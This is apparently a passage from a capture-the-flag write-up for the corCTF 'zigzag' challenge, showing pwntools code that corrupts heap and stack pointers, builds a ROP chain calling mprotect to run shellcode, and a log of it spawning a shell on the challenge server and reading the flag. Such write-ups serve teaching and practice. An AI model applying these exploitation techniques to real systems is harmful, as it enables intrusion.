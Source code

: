 ```py  
0x0000000000203715 : add rsp, 0x68 ; pop rbx ; pop r14 ; ret  
"""

edit(4, 0x400 + 5*8, b"A"*0x400 + pwn.p64(stack-0x50)* 3 + pwn.p64(0) +
pwn.p64(0))  
# write ROPchain into the safe area on the stack  
alloc(11, 0x400, pwn.p64(0x203147) \ # pop rdi ; ret  
       + pwn.p64(0x208000) + \ # target area for the shellcode  
       pwn.p64(0x20351b) + \ # pop rsi ; ret  
       pwn.p64(0x1000) + \ # length  
       pwn.p64(0x201fcf) + \ # pop rax ; syscall  
       pwn.p64(0xa) + \ # SYS_mprotect  
       pwn.p64(0x208000)) # jump on the shellcode + PROFIT

edit(4, 0x400 + 5*8, b"A"*0x400 + pwn.p64(stack-0xd0)* 3 + pwn.p64(0) +
pwn.p64(0))

alloc(12, 1000, pwn.p64(0x202d16)) # valid return address  
edit(12, 0x7, pwn.p64(0x0000000000203715)) # magic gadget

io.interactive()  
```

## PROFIT

```  
nasm@off:~/Documents/pwn/corCTF/zieg$ python3 remote.py REMOTE HOST=be.ax
PORT=31278  
[*] '/home/nasm/Documents/pwn/corCTF/zieg/zigzag'  
   Arch:     amd64-64-little  
   RELRO:    No RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x200000)  
[+] Opening connection to be.ax on port 31278: Done  
[*] stack: 0x7ffc2ca48ae8  
[*] Loaded 37 cached gadgets for 'zigzag'  
[*] Using sigreturn for 'SYS_execve'  
[*] Switching to interactive mode  
$ id  
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)  
$ ls  
flag.txt  
zigzag  
$ cat flag.txt  
corctf{bl4Z1nGlY_f4sT!!}  
```

## Appendices
